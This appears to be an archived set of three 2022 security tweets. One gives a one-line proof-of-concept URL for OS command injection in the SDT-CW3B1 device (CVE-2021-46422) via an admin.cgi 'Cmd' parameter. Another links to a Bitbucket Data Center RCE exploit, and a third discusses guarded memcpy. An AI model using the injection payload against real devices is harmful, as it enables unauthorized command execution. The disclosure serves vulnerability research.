 
# momika233
**https://twitter.com/momika233/status/1528742287072980992 _at 2022-05-23 14:18:58_**
<blockquote>
SDT-CW3B1 1.1.0 - OS Command Injection CVE-2021-46422

poc:hxxp://x.x.x.x/cgi-bin/admin.cgi?Command=sysCommand&amp;Cmd=id
#0day #nday #CVE #bugbountytips #bugbounty https://t.co/PPJZZ1EStb
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FTcuxx2akAAx0Jk.jpg" alt="http://pbs.twimg.com/media/FTcuxx2akAAx0Jk.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>157</code></td>
<td>Favorites: <code>464</code></td>
</tr></table>

---

# pythontrending
**https://twitter.com/pythontrending/status/1528697136929439744 _at 2022-05-23 11:19:33_**
<blockquote>
CVE-2022-26133 - Atlassian Bitbucket Data Center RCE(CVE-2022-26133) verification and exploitation. https://t.co/E6dAxwpaPB
</blockquote>

* http://github.com/Pear1y/CVE-2022-26133

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Donzanoid
**https://twitter.com/Donzanoid/status/1528457290067677185 _at 2022-05-22 19:26:29_**
<blockquote>
A guarded ~memcpy would have avoided 1/3 cases of recorded RCE exploits due to OOB writes. The memcpy simply knows how the allocator manages memory and can detect read/write overflows. https://t.co/R2RFb8WDLN
</blockquote>
